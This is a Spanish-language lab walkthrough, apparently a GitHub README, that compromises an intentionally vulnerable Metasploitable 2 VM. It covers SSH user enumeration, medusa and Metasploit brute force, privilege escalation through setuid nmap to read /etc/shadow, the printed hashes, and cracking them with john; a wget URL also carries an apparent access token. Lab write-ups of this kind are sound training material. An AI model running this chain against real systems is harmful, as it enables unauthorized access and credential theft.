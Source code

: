 # METAESPLOITABLE 2
## METODO 1
descubrimiento de la red

```
ifconfig
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_005024879.png)

>red: 192.168.30.0/24

descubrimiento de la ip del metasploitable

```
nmap -sn 192.168.30.0/24
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_010415201.png)

>Metasploitable: 192.168.30.130/24

identificamos los servicios y versiones que corren en todos los puertos

```
nmap -sV 192.168.30.130 -p-
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_012113513.png)

>22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

buscamos exploits relacionados a ese servicio

```
nmap -sV -p22 192.168.30.130 -oA results.txt
ls results.txt.*
searchsploit -x --nmap results.txt.xml
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_013715856.png)

>OpenSSH 2.3 < 7.7 - Username Enumeration 

buscamos un exploit para esa vulnerabilidad en la red:
[ssh-enum.py](https://github.com/rberrospit/UNI-CBN04/blob/main/ssh-enum.py)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rberrospit/UNI-CBN04/refs/heads/main/ssh-enum.py?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA
cp ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA ssh-enum.py
rm ssh-enum.py\?token=GHSAT0AAAAAADBMMK3NWUWIFVUYNQNJ7LLO2BXCDQA 
```

creamos un entorno virtual para la correcta ejecucion del ssh-enum.py

```
python3 -m venv venv
source venv/bin/activate
pip install paramiko==2.11.0
```

usamos ssh-enum.py y guardamos todo en usuarios.txt
```
python ssh-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.30.130 > usuarios.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_084635563.png)

filtramos solo nombre de usuario de usuarios.txt

```
grep "found\!" usuarios.txt > logs.txt
awk '{print $2}' logs.txt > users.txt 
rm usuarios.txt 
rm logs.txt
```

guardamos en ssh-user.txt el usuario al cual hallaremos su password usando ataque de diccionario

```
echo "user" > ssh-user.txt
```

buscamos un diccionario en la red:
[unix_users.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/unix_users.txt)

recuperamos el recurso

```
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/data/wordlists/unix_users.txt 
```

ataque de diccionario

```
medusa -U ssh-user.txt -P unix_users.txt -h 192.168.30.130 -M ssh
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090558717.png)

>usuario: user

>password: user

hacemos la conexion ssh con el metasploitable

```
ssh -o HostKeyAlgorithms=+ssh-rsa user@192.168.30.130
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_090929626.png)

escalamos privilegios

```
find / -perm -4000 -type f 2>/dev/null
nmap --interactive
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100643722.png)


```
!sh
cat /etc/passwd
cat /etc/shadow
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_100826936.png)

lista de todos los usuarios

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
```

contraseñas crackeadas usando john

```
john --format=md5crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_125011621.png)

## METODO 2

```
msfconsole
```

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_112139906.png)

```
use 75
set RHOSTS 192.168.30.130
set USER_FILE ./userssh.txt
set PASS_FILE ./unix_users.txt
run
```
>192.168.30.130:22 - Success: 'user:user' 'uid=1001(user) gid=1001(user) groups=1001(user) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '

![alt text](https://github.com/raresroy/Metasploitable1/blob/main/imagen_2025-05-28_114655729.png)
